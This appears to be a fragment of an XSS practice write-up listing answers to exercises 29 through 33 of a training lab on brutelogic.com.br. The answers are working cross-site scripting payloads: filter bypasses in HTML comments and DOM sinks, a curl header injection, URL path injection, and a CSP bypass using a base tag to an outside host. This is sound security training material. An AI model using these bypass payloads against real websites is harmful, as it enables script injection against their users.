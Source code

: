 <h3>Exercise 29: Filtered Injection in HTML Comments</h3>
<p>A filtered version of Exercise 28, requiring bypass techniques.</p>
<p><b>Answer:</b> <code>&lt;!--&gt;&lt;svg/onload=alert(1)--&gt;</code></p>

<h3>Exercise 30: Filtered Injection in Javascript DOM – Document Sink</h3>
<p>Similar to Exercise 25, but with filters applied, requiring specific bypass techniques.</p>
<p><b>Answer:</b> <code>\74img/src/onerror=alert(1)\76</code></p>

<h3>Exercise 31: Injection in Script Tag With Header</h3>
<p>Injecting XSS payloads inside the <code>&lt;script&gt;</code> tag, along with HTTP headers.</p>
<p><b>Answer:</b> <code>curl -H 'x:&lt;/script&gt;&lt;svg/onload=alert(1)&gt;' https://brutelogic.com.br/gym.php?[random-string-here]</code></p>

<h3>Exercise 32: Injection in URL</h3>
<p>This involves manipulating a URL to inject a payload that triggers an XSS attack.</p>
<p><b>Answer:</b> <code>https://brutelogic.com.br/gym.php/"&gt;&lt;svg/onload=alert(1)&gt;</code></p>

<h3>Exercise 33: Injection Bypassing CSP (Content Security Policy)</h3>
<p>This demonstrates bypassing a Content Security Policy (CSP) to execute XSS.</p>
<p><b>Answer:</b> <code>?CSP&amp;p05=&lt;base/href=//X55.is&gt;</code></p>
